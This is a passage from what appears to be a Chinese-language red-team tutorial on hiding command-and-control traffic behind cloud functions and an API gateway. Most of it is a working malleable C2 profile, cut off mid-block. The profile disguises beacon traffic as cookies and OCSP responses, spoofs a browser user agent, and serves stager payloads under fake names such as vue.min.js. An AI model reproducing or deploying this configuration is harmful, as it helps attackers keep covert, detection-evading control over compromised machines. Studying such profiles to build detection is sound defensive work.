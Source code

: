 然后直接完成配置

![图片](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/C2/Concealment/images_20210518112513.png)

![image-20210518111429054](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/C2/Concealment/images_20210518112519.png)

配置好云函数和 API网关 以后，我们去配置一下 C2 的服务器profile的配置:

```java
set sample_name "t";
set sleeptime "3000";
set jitter   "0";
set maxdns   "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";

http-get {

  set uri "/api/x";

  client {
      header "Accept" "*/*";
      metadata {
          base64;
          prepend "SESSIONID=";
          header "Cookie";
      }
  }

  server {
      header "Content-Type" "application/ocsp-response";
      header "content-transfer-encoding" "binary";
      header "Server" "Nodejs";
      output {
          base64;
          print;
      }
  }
}
http-stager {
  set uri_x86 "/vue.min.js";
  set uri_x64 "/bootstrap-2.min.js";
}
http-post {
  set uri "/api/y";
  client {
      header "Accept" "*/*";
      id {
          base64;
          prepend "JSESSION=";
          header "Cookie";
      }
      output {
          base64;
          print;
      }
  }

  server {
      header "Content-Type" "application/ocsp-response";
      header "content-transfer-encoding" "binary";
      header "Connection" "keep-alive";
      output {
          base64;
          print;
```
